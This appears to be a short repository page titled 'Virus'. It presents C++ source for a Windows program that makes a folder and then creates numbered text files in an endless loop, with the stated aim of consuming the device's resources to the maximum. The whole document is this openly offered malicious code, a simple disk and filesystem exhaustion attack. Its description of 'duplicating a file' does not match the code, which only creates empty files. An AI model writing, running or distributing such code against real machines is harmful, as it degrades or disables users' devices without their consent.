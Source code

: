 # Virus
Idea &rarr; Duplicate a file on the device infinitely, and this consumes the device's resources to the maximum.
```c
#include <bits/stdc++.h>
#include <direct.h>
using namespace std;

int main() {

    long long indexFile = 0;
    char const* path = "C:\\Diphro\\";
    _mkdir(path);

    while (true) {
        indexFile++;
        ofstream file (path + to_string(indexFile) +".txt");
    }
}
```
![Alt text](/images/virus.gif)

